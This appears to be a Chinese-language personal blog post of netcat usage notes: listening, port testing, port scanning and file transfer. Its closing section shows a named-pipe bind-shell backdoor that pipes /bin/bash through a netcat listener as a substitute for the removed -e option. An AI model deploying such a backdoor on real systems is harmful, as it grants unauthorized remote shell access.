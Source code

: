 ```yaml
---
title: "netcat 的使用笔记"
date: 2020-03-16
lastmod: 2020-03-16
draft: false
categories: ["Clavicula Salomonis"]
tags: ["linux", "netcat"]
author: "sherry"
---
```

当在[ debian 的仓库](https://packages.debian.org/sid/netcat-openbsd)中查看 openbsd 版本的 netcat时，会看到描述中有这样一句话：“TCP/IP swiss army knife”，被誉为 TCP/IP 的瑞士军刀，可以想象，这可以说是很高的赞誉了。netcat 当年还是2001年，2003年，2006年的 insecure.org 几次安全工具的投票中的前五名，它不仅是一个非常优秀的软件，体积还很小（只有几十KB），[源代码](https://github.com/openbsd/src/tree/master/usr.bin/nc) 也很少，以至于有很多人去重写，出现了很多变种。比较知名的有[openbsd版本](https://packages.debian.org/sid/netcat-openbsd)，[gnu版本](http://netcat.sourceforge.net/download.php)，[nmap社区版本ncat](https://nmap.org/ncat/)。

<!--more-->

netcat 最初的作者是一个名为“*Hobbit*”的人在1995年10月28号以源代码的形式发布的。在其[官网](https://nc110.sourceforge.io/)还能找到一些其他信息以及由“*Hobbit*”最后更新于2007年的那个版本。在本文中，我使用的是 openbsd-netcat，因此以下使用记录如无特殊说明默认都是 openbsd 版本的netcat。

首先来看一下 `nc -h` 里平时使用频率比较高的一些选项：

- h：输出帮助信息
- k：可以使客户端重复连接，一般配合 l 来使用
- l：开启监听模式，作为服务端。若不加该选项则默认为客户端
- n：不对命令行中的host进行域名解析。简单来说就是host写为x.x.x.x时加上该选项，写为域名时不加
- p：指定端口
- v：输出详细信息
- z：通常用于端口扫描，仅判断是否能够连接，不进行数据通讯

### 开启服务

```bash
$ nc -l -k -p [port]
```

作为服务端，监听端口，开启服务。假设客户端通过 `nc [ip] [port]` 连上服务端，当断开客户端，服务端也会停止，加上选项 k 可以使其保持开启状态。这个是挺常见的用法，使用频率挺高，例如在flink的官方教程就用到了这个。

### 测试端口

```bash
$ nc -nv [ip] [port]
```

例如某个远程主机上开启了某个端口，这样做可以测试端口是否能连上，若其中的 ip 的位置为域名，就不需要加 n 了。

### 端口扫描

```bash
$ nc -znv [ip] [port-port] 2>&1 | grep succeeded
```

可以用来做渗透测试。

### 文件传输

首先在接收端开启监听：

``` bash
$ nc -l -p [port] > [filename]
```

然后在发送端发送文件:

```bash
$ nc [ip] [port] < [filename]
```

这样传输文件的好处是不需要应用层，直接在传输层层面传输的，相比于通过应用层的软件之间的传输，性能上会有优势。假如从本机要传文件到开启了nat模式的虚拟机中，由于此时虚拟机对于宿主机的访问是单向的，因此可以先在虚拟机上配置一个端口转发，然后从本机 `nc localhost [port] < [filename]` 。注：传输过程中没有进度条，因此需要重新开一个 terminal，自行对比文件的大小判断是否发送完后，然后在发送端 `ctrl+c` 即可。

### 后记

除了以上的常见操作外，netcat还能配合一些其他命令做到更多高端操作，诸如端口转发，代理转发，备份系统，开启后门等等，更多操作可以参考编程随想的博文——[扫盲 netcat（网猫）的 N 种用法——从“网络诊断”到“系统入侵”](https://program-think.blogspot.com/2019/09/Netcat-Tricks.html)。值得一提的是开启后门的选项 -e 在 openbsd-netcat 被删掉了，可能是作者觉得过于危险，但是在其他很多变种中这个选项还有保留。虽然 -e 在 openbsd-netcat 中被删除了，但是还是可以通过创建命名管道的方法间接达到 -e 的作用：

```bash
$ mkfifo [name]
$ cat [name] | /bin/bash 2>&1 | nc -l -p [port] > [name]
```

这可能也是编程随想的博客中有提到但并未透露的“间接的方式”。
